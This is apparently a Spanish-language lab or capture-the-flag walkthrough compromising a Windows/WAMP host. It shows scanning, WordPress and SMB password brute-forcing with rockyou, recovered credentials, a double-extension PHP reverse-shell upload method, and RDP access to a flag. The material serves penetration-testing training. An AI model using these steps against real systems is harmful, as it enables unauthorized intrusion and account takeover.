







# Host 1 - 192.168.100.50

Escaneamos esta IP de la siguiente forma:

```sh
nmap -Pn -sS -sV -sC -T4 -p- -O -oN 192.168.100.50.txt 192.168.100.50
```

Y obtenemos lo siguiente:

```sh
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.4.51 ((Win64) PHP/7.4.26)
|_http-title: WAMPSERVER Homepage
|_http-server-header: Apache/2.4.51 (Win64) PHP/7.4.26
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
3307/tcp  open  opsession-prxy?
| fingerprint-strings: 
|   NULL: 
|_    Host 'ip-192-168-100-5.ec2.internal' is not allowed to connect to this MariaDB server
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=WINSERVER-01
| Not valid before: 2026-11-20T10:40:44
|_Not valid after:  2027-05-22T10:40:44
|_ssl-date: 2026-11-21T11:15:09+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WINSERVER-01
|   NetBIOS_Domain_Name: WINSERVER-01
|   NetBIOS_Computer_Name: WINSERVER-01
|   DNS_Domain_Name: WINSERVER-01
|   DNS_Computer_Name: WINSERVER-01
|   Product_Version: 6.3.9600
|_  System_Time: 2026-11-21T11:14:57+00:00
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49168/tcp open  msrpc              Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3307-TCP:V=7.92%I=7%D=11/21%Time=6B017CEE%P=x86_64-pc-linux-gnu%r(N
SF:ULL,5C,"X\0\0\x01\xffj\x04Host\x20'ip-192-168-100-5\.ec2\.internal'\x20
SF:is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20serve
SF:r");
MAC Address: 0E:FF:D2:59:B9:C3 (Unknown)
Device type: general purpose
Running: Microsoft Windows 2012|7|8.1
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_7:::ultimate cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Server 2012 R2 Update 1, Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-11-21T11:14:57
|_  start_date: 2026-11-21T10:40:34
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WINSERVER-01
|   NetBIOS computer name: WINSERVER-01\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-11-21T11:14:56+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WINSERVER-01, NetBIOS user: <unknown>, NetBIOS MAC: 0e:ff:d2:59:b9:c3 (unknown)
```

Información recolectada:
- Sistema operativo: Windows Server 2008 R2 - 2012
- Nombre del computador: WINSERVER-01

## Puerto 80 (Wampserver)
Primero, tenemos que entender qué es Wampserver. Es un paquete gratuito de software para Windows que crea un entorno de desarrollo web local en tu computadora. 

Procedemos a entrar a la página ingresando solamente la IP y nos da la siguiente información:
- Versión de Apache: 2.4.51
- Versión de PHP: 7.4.26
- Versión de Wampserver: 3.2.6
- Versión de MySQL: 5.7.36
- Versión de MariaDB: 10.6.5



Procedemos a buscar vulnerabilidades asociadas con Wampserver de la siguiente forma:
```
searchsploit wampserver
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
WampServer 2.0i - 'lang' Cross-Site Scripting                                      | windows/remote/33662.txt
WampServer 3.0.6 - Cross-Site Request Forgery                                      | php/webapps/44851.txt
Wampserver 3.0.6 - Insecure File Permissions Privilege Escalation                  | windows/local/40967.txt
WampServer 3.1.1 - Cross-Site Scripting / Cross-Site Request Forgery               | php/webapps/44384.txt
WampServer 3.1.2 - Cross-Site Request Forgery                                      | php/webapps/44385.html
----------------------------------------------------------------------------------- ---------------------------------
```

Notamos que ninguna es para la versión en la que estamos.

Seguimos haciendo reconocimiento, y vemos que existe xdebug con versión 3.1.1. HAcemos lo mismo que antes:
```
searchsploit xdebug
```

```
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
xdebug < 2.5.5 - OS Command Execution (Metasploit)                                 | php/remote/44568.rb
----------------------------------------------------------------------------------- ---------------------------------
```

Pero no encontramos nada útil.

Seguimos con dirb para enumerar el sitio:
```
dirb http://192.168.100.50/
```

Y nos da lo siguiente:
```
http://192.168.100.50/0 [200]
http://192.168.100.50/admin [302]
http://192.168.100.50/atom [301]
http://192.168.100.50/aux [403]
http://192.168.100.50/cgi-bin/ [403]
http://192.168.100.50/com1 [403]
http://192.168.100.50/com2 [403]
http://192.168.100.50/com3 [403]
http://192.168.100.50/comment-page-1 [301]
http://192.168.100.50/con [403]
http://192.168.100.50/dashboard [302]
http://192.168.100.50/embed [200]
http://192.168.100.50/feed/
http://192.168.100.50/home [200]
http://192.168.100.50/Home [200]
http://192.168.100.50/index [200]
http://192.168.100.50/login [302]
http://192.168.100.50/logo/
http://192.168.100.50/page1 [200]
http://192.168.100.50/page2 [200]
http://192.168.100.50/lpt1 [403]
http://192.168.100.50/lpt2 [403]
http://192.168.100.50/nul [403]
http://192.168.100.50/prn [403]
http://192.168.100.50/rdf [301]
http://192.168.100.50/rss [301]
http://192.168.100.50/rss2 [301]
http://192.168.100.50/wordpress/
http://192.168.100.50/wp-admin/
```

Al intentar entrar a admin, nos da un error. ¿Por qué? Porque tenemos que hacer lo siguiente:

```sh
nano /etc/hosts

# Agregar
192.168.100.50 wordpress.local
```

Con dirb, buscamos la siguiente ruta:
```
http://192.168.100.50
```

```
<rss version="2.0">
<channel>
<title>Syntex</title>
<atom:link href="http://wordpress.local/feed/" rel="self" type="application/rss+xml"/>
<link>http://wordpress.local</link>
<description/>
<lastBuildDate>Mon, 18 Apr 2022 21:26:13 +0000</lastBuildDate>
<language>en-US</language>
<sy:updatePeriod> hourly </sy:updatePeriod>
<sy:updateFrequency> 1 </sy:updateFrequency>
<generator>https://wordpress.org/?v=5.9.3</generator>
<image>
</image>
<item>
</item>
<item>
<title>Hello world!</title>
<link>http://wordpress.local/2022/04/18/hello-world/</link>
<comments>
http://wordpress.local/2022/04/18/hello-world/#comments
</comments>
<dc:creator>admin</dc:creator>
<pubDate>Mon, 18 Apr 2022 21:11:20 +0000</pubDate>
<category>Uncategorized</category>
<guid isPermaLink="false">http://127.0.0.1/wordpress/?p=1</guid>
<description>
Welcome to WordPress. This is your first post. Edit or delete it, then start writing!
</description>
<content:encoded>
<p>Welcome to WordPress. This is your first post. Edit or delete it, then start writing!</p>
</content:encoded>
<wfw:commentRss>
http://wordpress.local/2022/04/18/hello-world/feed/
</wfw:commentRss>
<slash:comments>1</slash:comments>
</item>
</channel>
</rss>
```

Vemos que hay un usuario llamado "admin". Y en la página principal, vemos que dice "Customized Workflow Development".



Entramos a la zona de login de Wordpress.


Ingresamos también a esta ruta dada por la primera parte:
```
http://192.168.100.50/2022/04/18/syntex-wordpress-site/feed/
```

Y podemos ver que la versión de Wordpress es 5.9.3.



Al probar una contraseña, nos dice que "La contraseña ingresada para el usuario admin es incorrecta", por lo que confirmamos la existencia del usuario, y podemos hacer un ataque de fuerza bruta usando WPScan.

```
wpscan --url http://192.168.100.50/ -e ap,u --wp-content-dir wordpress/
```

```
[?] Do you want to update now? [Y]es [N]o, default: [N]N
[+] URL: http://192.168.100.50/ [192.168.100.50]
[+] Started: Sat Nov 21 17:38:37 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.51 (Win64) PHP/7.4.26
 |  - X-Powered-By: PHP/7.4.26
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress version 5.9.3 identified (Latest, released on 2022-04-05).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.100.50/00c3a06.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.9.3'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.100.50/00c3a06.html, Match: 'WordPress 5.9.3'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=======================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://192.168.100.50/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Rss Generator (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Nov 21 17:38:42 2026
[+] Requests Done: 54
[+] Cached Requests: 4
[+] Data Sent: 11.409 KB
[+] Data Received: 410.239 KB
[+] Memory used: 190.621 MB
[+] Elapsed time: 00:00:05

```

Ahora, para realizar fuerza bruta, primero debemos descomprimir el .gz del rockyou:
```
gunzip /usr/share/wordlists/rockyou.txt.gz
```

Ahora sí, lanzamos el ataque:
```
wpscan --url http://192.168.100.50/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```

Y encontramos que el usuario admin tiene de contraseña: estrella.



Vemos que el correo del admin es `test@test.com`.

Una vez entramos, vemos que existen 3 plugins instalados:


Tenemos a:
- Burger Companion 4.8
- WordPress Responsive Thumbnail Slider 1.0
- WP File Manager 7.1.4

Buscamos vulnerabilidades en cada uno de estos plugins con `searchsploit`.

Vemos que existe uno con Wordpress Plugin Response Thumbnail 1.0:

```
root@kali:~# searchsploit wordpress responsive thumbnail
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Responsive Thumbnail Slider - Arbitrary File Upload (Metasploit)  | php/remote/45099.rb
WordPress Plugin Responsive Thumbnail Slider 1.0 - Arbitrary File Upload           | php/webapps/37998.txt
----------------------------------------------------------------------------------- ---------------------------------
```

Vemos qué nos dice el exploit:
```
# For Exploiting This Vulnerability :

# Go To Add Image Section And Upload File By Self Plugin Uploader
# Then Upload File With Double Extension Image
# And By Using A BurpSuite Or Tamper Data Change The File Name From
Shell.php.jpg To Shell.php
# And Shell Is Uploaded . :)
```

Es decir, debemos ir a añadir sección de imagen y subir un archivo, luego subir un archivo con doble extensión de imagen, y usando burpsuite cambiar el nombre del archivo de shell.php.jpg a shell.php, y así tenemos la shell subida.

Por lo que nos vamos a `revshells.com`:
 y generamos el payload con "PHP PentestMonkey".

Con Ctrl + Alt + Shift pegamos esto y lo escribimos en un archivo llamado `shell.php.jpg`.

Interceptamos con BurpSuite la petición, le borramos el ".jpg", y así tenemos la shell subida. 

Vemos que no se puede continuar por este vector, así que seguimos con enumeración de crackmapexec:
```
crackmapexec smb 192.168.100.50 -u 'guest' -p '' --rid-brute
```

```
SMB         192.168.100.50  445    WINSERVER-01     [*] Windows Server 2012 R2 Standard 9600 x64 (name:WINSERVER-01) (domain:WINSERVER-01) (signing:False) (SMBv1:True)
SMB         192.168.100.50  445    WINSERVER-01     [+] WINSERVER-01\guest: 
SMB         192.168.100.50  445    WINSERVER-01     [+] Brute forcing RIDs
SMB         192.168.100.50  445    WINSERVER-01     500: WINSERVER-01\Administrator (SidTypeUser)
SMB         192.168.100.50  445    WINSERVER-01     501: WINSERVER-01\Guest (SidTypeUser)
SMB         192.168.100.50  445    WINSERVER-01     513: WINSERVER-01\None (SidTypeGroup)
SMB         192.168.100.50  445    WINSERVER-01     1000: WINSERVER-01\WinRMRemoteWMIUsers__ (SidTypeAlias)
SMB         192.168.100.50  445    WINSERVER-01     1009: WINSERVER-01\mike (SidTypeUser)
SMB         192.168.100.50  445    WINSERVER-01     1010: WINSERVER-01\vince (SidTypeUser)
SMB         192.168.100.50  445    WINSERVER-01     1011: WINSERVER-01\admin (SidTypeUser)
```

Tenemos los usuarios: mike, vince, admin, Administrator, Guest, None.

En las preguntas, nos preguntan por las credenciales de mike, así que haremos fuerza bruta:
```sh
crackmapexec smb 192.168.100.50 -u mike -p /usr/share/wordlists/rockyou.txt

mike:diamond

xfreerdp /v:192.168.100.50 /u:mike /p:'diamond' /dynamic-resolution
```

Para obtener los HotFixes se ocupa:

```pwsh
(Get-HotFix).Count
```
> 220

Nos ponemos a curiosear y vemos que en Documents existe una flag:
```
e22174e4d9c546a4891e9ed819070ad5
```

Con esto, hemos terminado la primera máquina.